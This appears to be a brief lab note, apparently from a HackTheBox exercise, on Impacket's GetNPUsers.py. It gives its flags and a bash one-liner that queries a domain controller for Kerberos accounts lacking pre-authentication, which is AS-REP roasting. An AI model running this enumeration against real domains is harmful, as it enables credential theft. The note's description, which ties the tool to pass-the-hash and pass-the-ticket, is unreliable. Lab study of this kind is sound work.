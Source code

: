 GetNPUsers.py
- impacket GetNPUsers is a command-line tool within the Impacket suite, used for extracting Kerberos Pre-Authentication (PreAuth) users from a Windows domain. This tool helps in identifying potential attack vectors and identifying users that can be targeted for pass-the-hash (PtH) or pass-the-ticket (PtT) attacks.
- usage
	- -no-pass 
	- -dc-ip "IP address"
- One liner to paste user file
```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
